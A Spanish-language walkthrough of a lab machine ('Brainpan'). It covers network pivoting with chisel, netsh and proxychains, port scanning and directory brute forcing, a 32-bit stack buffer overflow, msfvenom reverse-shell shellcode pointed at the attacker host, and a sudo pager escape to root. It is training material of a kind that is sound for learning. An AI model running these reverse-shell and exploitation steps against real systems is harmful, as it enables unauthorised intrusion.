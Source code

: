 ```yaml
---
title: "6. Brainpan"
description: "6. Brainpan"
pubDate: 2025-05-20
---
```


[5. Matrix 1](5.%20Matrix%201.md)

# Fase de reconocimiento

## Buscamos hosts en la red

Buscaremos host en red con un script en bash, usando vi

````
#!\dev\null

for i in $(seq 1 254); do
		timeout 1 bash -c "ping -c 10.10.0.$i" &>/dev/null && echo "[+] Host 10.0.0.$i - ACTIVE" &
		
done; wait
````

(Si no acepta traza icmp⬇ )

````
#!\dev\null

for i in $(seq 1 254); do
		for port in 21 22 80 443 445 8080; do
				timeout 1 bash -c "echo '' > /dev/tcp/10.10.0.$i/$port" &>/dev/null && echo "[+] Host 10.0.0.$i - ACTIVE - PORT $port" &
		done
		
done; wait
````

## Pivoting con Chisel

https://github.com/jpillora/chisel
Chisel creará un tunnel entre el chisel servidor y el/los cliente/s trayendo puertos.
Para poder utilizar la maquina atacante todo el rato.

1. Copiamos chisel en la maquina Aragog

````
scp chisel root@<ip5>:/tmp/chisel
````

2. Nos conectamos al servidor

````
./chisel client <ip4>:8787 R:5522:socks
````

Esto abrirá un tunel por la 5522 con la red del cliente
4. Con netsh (Windows) en Dumbledore lo redirigimos a Nagini

````
netsh interface portproxy add v4tov4 listenport=8787 listenaddress:0.0.0.0 connectport=8788 connectaddress=<ip2>
````

Esto abrirá un túnel por la 9999 con la red del cliente
5. Con el proxy "proxychains" configuramos el archivo "proxychains.conf"

````
# strict_chain
Deshasteamos dynamic_chain
add abajo:
    socks5 127.0.0.1 5522
	socks5 127.0.0.1 9999
	socks5 127.0.0.1 8888
	socks5 127.0.0.1 1080
````

Ahora para ejeuctar comandos en 'ip5' con proxycahins -comando-

## Buscar puertos

````
proxychains nmap -sT -Pn --top-ports 500 -open -T5 -v -n <ip6> 2>/dev/null
````

Buscaremos puertos con la ayuda de xargs para agilizar el escaneo

````
seq 1 65535 | xargs -P 500 -I {} proxychains nmap -sT -Pn -p{} -open -T5 -v -n <ip6> 2>&1 | grep "tcp open"
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240425011947.png)

## FoxyProxy

Para poder ver la web añadimos un proxy en el navegador con FoxyProxy con el puerto 5522

## whatweb

````
proxychains whatweb http://<ip6>:10000
````

## Burpsuite para fuerza bruta

### Configuración de proxy

Añadimos la proxy 5522
![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240425012723.png)

## Enumerar directorios por fuerza bruta

1. Interceptamos la web
1. Con el Intruder añadimos en el directorio donde queremos aplicar fuerza bruta
   ![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240425013330.png)
1. Configuramos el Payload con el diccionario:
   /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
1. Start attack
   ![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240425013521.png)

Este directorio contiene un binario con el programa que utiliza el puerto 9999

Para ver el programa del puerto 9999:

````
proxychains nc <ip6> 9999
````

# Fase de ataque

## Buffer Overflow

Como es un binario de 32 bits lo debbugearemos con Windows 7 23 bits

1. Nos compartimos el binario al Windows 7

````
python3 -m http.server 80
````

2. Lo ejecutamos y aceptamos todo
2. Nos descargamos e instalamos en Windows Immunity Debugger https://www.immunityinc.com/products/debugger/ y registramos el binario
2. Conectamos al servicio

````
nc <ipwin> 9999
````

Al enviar una cantidad de "A" elevada el programa explota, por lo que nos podemos aprovechar para un buffer overflow

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240425210111.png)
5. Creamos un patrón para localizar donde explota el programa quedándose en el EIP

````
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1000
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240425210538.png)
![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240425210554.png)
6. Buscamos el número del EIP para buscar la cantidad de "A" necesarias para sobrescribir el EIP

````
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x35724134
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240425210816.png)
La cantidad son 524
7. Podemos observar que el ESP es la continuación del EIP
8. Con "miona" detectamos que el x00 es un bad chart, lo quitamos
9. Creamos un exploit para conseguir ejecutar el codigo para una revershell
1. Creamos el shellcode

````
msfvenom -p windows/shell_reverse_tcp LHOST=<ip6> LPORT=443 --platform windows -a x86 -e x86/shikata_ga_nai -f c -b "\x00" EXITFUNC=thread 
````

    2. Creamos el script
    

\*\*![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240425215746.png)
10. Con socat preparamos para redirigir el trafico
11. Nos ponemos en escucha

````
rlwrap nc -nlvp 443
````

12. Lanzamos el exploit

````
proxychains python3 exploit.py
````

\[-\] ==pwned!==

# Privilege Escalation

1. Creamos otro exploit pero para Linux ya que tiene un subsistema Linux dentro del Windows
   1. Creamos el shellcode

````
msfvenom -p linux/x86/shell_reverse_tcp LHOST=<ip6> LPORT=443 -f c -b "\x00" EXITFUNC=thread 
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240425220603.png)
2. Nos ponemos en escucha

````
rlwrap nc -nlvp 443
````

3. Lanzamos el exploit

````
proxychains python3 exploit.py
````

Colocamos la terminal

## Hacerse root

Miramos privilegios

````
sudo -l
````

Tenemos un comando que al lanzarlo contiene un manual
Lanzamos el manual y se lanza en modo paginated
Escribimos !/bin/bash
\[+\] ==pwned!==

# Técnicas Utilizadas

Web Enumeration - BurpSuite Intruder Attack (Due to certain timeout problems using multiple proxies)
EXE Binary Analysis - Immunity Debugger (Buffer Overflow x32 Stack Based)
EXTRA: Playing with netsh to control connection flow in Windows
EXTRA: Reverse shell going through 4 machines using 4 SOCKS proxies
